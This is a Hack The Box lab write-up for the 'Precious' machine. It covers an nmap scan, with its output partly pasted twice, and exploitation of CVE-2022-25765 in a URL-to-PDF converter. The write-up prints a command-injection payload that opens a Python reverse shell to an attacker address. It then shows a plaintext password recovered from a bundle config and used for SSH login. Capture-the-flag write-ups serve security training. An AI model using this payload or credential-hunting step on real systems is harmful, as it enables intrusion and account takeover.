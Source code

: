 # Precious - Hack The Box

## Initially info gathering

### Run an nmap script

> nmap -sC -sV 10.10.11.189

'''
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-23 19:43 EST
Nmap scan report for 10.10.11.189
Host is up (0.062s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.45 secondsStarting Nmap 7.93 ( https://nmap.org ) at 2022-12-23 19:43 EST
Nmap scan report for 10.10.11.189
Host is up (0.062s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.45 seconds
'''

Going to 10.10.11.189:80 in a browser, shows us that's it's trying to reach precious.htb. So we need to add that to our hosts file so we can load the webpage.

> sudo nano /etc/hosts

'''
10.10.11.189    precious.htb
'''

We find a page that says it can Convert Web Page to PDF, and asks us to enter a URL to fetch something.

## Reverse payloard for CVE-2022-25765

> http://xx.xx.xx.xx/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'`

We come backed signed in as the user ruby.

Found another home directory named user
Then navigated to /home/ruby/.bundle and found a config with the contents:

'''
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH
ruby@precious:~/.bundle$ ^C
'''

Got henry's password and we can ssh in using his account




